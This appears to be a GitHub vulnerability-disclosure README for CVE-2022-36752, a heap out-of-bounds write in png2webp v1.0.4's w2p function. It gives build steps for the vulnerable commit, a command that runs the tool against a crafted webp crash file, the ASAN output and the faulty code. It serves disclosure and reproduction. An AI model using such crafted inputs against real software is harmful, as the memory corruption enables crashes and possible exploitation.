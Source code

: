 # CVE-2022-36752

png2webp v1.0.4 was discovered to contain an out-of-bounds write via the function w2p. This vulnerability is exploitable via a crafted webp file when reversing the format back to png.

## Reproduction

To reproduce the vulnerability, download the vulnerable version of png2webp (v1.0.4) and compile the project:

```
git clone https://github.com/landfillbaby/png2webp.git
cd png2webp
git checkout 0c7119109cde91127a263bf0af252e5e730f7fba
git submodule update --init --depth 1
./configure && make
```

Once the project has been compiled, we can point png2webp towards our malicious .webp file included in this repository (CVE-2022-36752_crash.webp):

```
./png2web -r CVE-2022-36752_crash.webp
```

The previous command will produce a crash and return an error message:

```
corrupted size vs. prev_size
```

To gain a better understanding of where the crash is taking place, lets recompile the project with address sanitizer (ASAN) by adding -fsanitize=address to the CFLAGS variable in the Makefile. We also want the compiler to store symbol table information in the executable (-g flag) to help us determine which line of code produced the crash:

```
ifeq (${uname_m},x86_64)
CFLAGS ?= -O3 -Wall -Wextra -pipe -flto=auto -DNDEBUG -march=x86-64-v2 -fsanitize=address -g
```

Next we will clean any stale files and recompile the project:

```
make clean
make
```

ASAN reports an invalid write of size 12 in the program, confirming the existance of an out-of-bounds write vulnerability:

```
==222970==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x602000000010 at pc 0x563e3ec4ee6a bp 0x7fff3a7b04d0 sp 0x7fff3a7b04c8
WRITE of size 12 at 0x602000000010 thread T0
    #0 0x563e3ec4ee69  (/dev/shm/png2webp/png2webp+0x23e69)
    #1 0x563e3ec3df34  (/dev/shm/png2webp/png2webp+0x12f34)
    #2 0x7fcfe4967189 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #3 0x7fcfe4967244 in __libc_start_main_impl ../csu/libc-start.c:381
    #4 0x563e3ec3e3f0  (/dev/shm/png2webp/png2webp+0x133f0)

0x602000000017 is located 0 bytes to the right of 7-byte region [0x602000000010,0x602000000017)
allocated by thread T0 here:
    #0 0x7fcfe4cae7cf in __interceptor_malloc ../../../../src/libsanitizer/asan/asan_malloc_linux.cpp:145
    #1 0x563e3ec46052  (/dev/shm/png2webp/png2webp+0x1b052)

SUMMARY: AddressSanitizer: heap-buffer-overflow (/dev/shm/png2webp/png2webp+0x23e69) 
Shadow bytes around the buggy address:
  0x0c047fff7fb0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c047fff7fc0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c047fff7fd0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c047fff7fe0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c047fff7ff0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x0c047fff8000: fa fa[07]fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff8010: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff8020: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff8030: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff8040: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff8050: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
  Shadow gap:              cc
==222970==ABORTING

```

## Vulnerable code in the function w2p():
```
  if(l < 12
#ifdef SSIZE_MAX
    || l - 12 > SSIZE_MAX
#endif
  ) {
    PF("ERROR reading %s: %s", IP, k[2]);
    goto w2p_close;
  }
```

## References
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-36752
* https://cwe.mitre.org/data/definitions/787.html
